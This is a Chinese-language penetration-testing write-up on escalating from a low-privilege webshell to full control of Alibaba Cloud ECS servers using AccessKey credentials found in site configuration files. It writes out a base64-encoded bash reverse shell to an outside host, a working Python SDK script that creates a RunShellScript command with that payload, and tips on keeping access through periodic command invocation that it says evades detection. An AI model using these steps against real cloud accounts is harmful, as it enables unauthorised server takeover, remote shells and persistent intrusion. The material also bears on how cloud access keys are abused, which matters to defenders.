






## 0x00 前言

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

1. 是否需要提权
2. 如何将流量带入（转发）
3. 结合搜集的信息转化出其他更好的思路

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

## 0x01 阿里云对象存储 - OSS

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。


通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：


`http(s)://[BucketName].oss-cn-[Region].aliyuncs.com`

BucketName ：存储空间

Region：地域，目前有如下几个：



例如：杭州 = cn-hangzhou


## 0x02 Access Token

Access Token = AccessKeyId + AccessKeySecret


OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

[详细介绍](https://help.aliyun.com/document_detail/31867.html?spm=a2c4g.11186623.2.7.60c35869TaDn9K#concept-e4s-mhv-tdb)

## 0x03 通过Access Token接管ECS

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。


首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？


```
Access Key Id : *********
Access Secret : ***************************
Region : cn-*****
```

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息


只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：



服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：



输出结果如下：




使用`json.cn`格式化一下：



共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

https://help.aliyun.com/document_detail/64844.html

命令的类型取值范围：

- RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
- RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
- RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode


```
rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
```


```
#!/usr/bin/env python
#coding=utf-8

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest

client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')

request = CreateCommandRequest()
request.set_accept_format('json')

request.set_Type("RunShellScript")
request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
request.set_Name("test")

response = client.do_action_with_exception(request)
# python2:  print(response) 
print(str(response, encoding='utf-8'))

```

执行成功后，会返回如下信息：

```
{
	"RequestId": "********-****-****-****-********",
	"CommandId": "c-0************"
}
```

CommandId最好记下来，不然还要调用[DescribeCommands](https://api.aliyun.com/find/Ecs/DescribeCommands?spm=a2c1g.8271268.10000.91.169bdf25hVPFbi)


```
{
	"PageNumber": 1,
	"TotalCount": 1,
	"PageSize": 10,
	"RequestId": "********-****-****-****-********",
	"Commands": {
		"Command": [
			{
				"Name": "test",
				"Timeout": 3600,
				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
				"Description": "",
				"Type": "RunShellScript",
				"CommandId": "c-0************",
				"WorkingDir": ""
			}
		]
	}
}
```

紧接着就是`InvokeCommand`：

- RegionId：区域ID，例如：cn-shanghai
- CommandId：命令ID
- InstanceId：实例ID
- Timed：命令是否为周期执行。 默认值：False
- Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅[Cron表达式](https://help.aliyun.com/document_detail/64769.html?spm=a2c4g.11186623.2.21.755e1926kBOlWA)。

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。




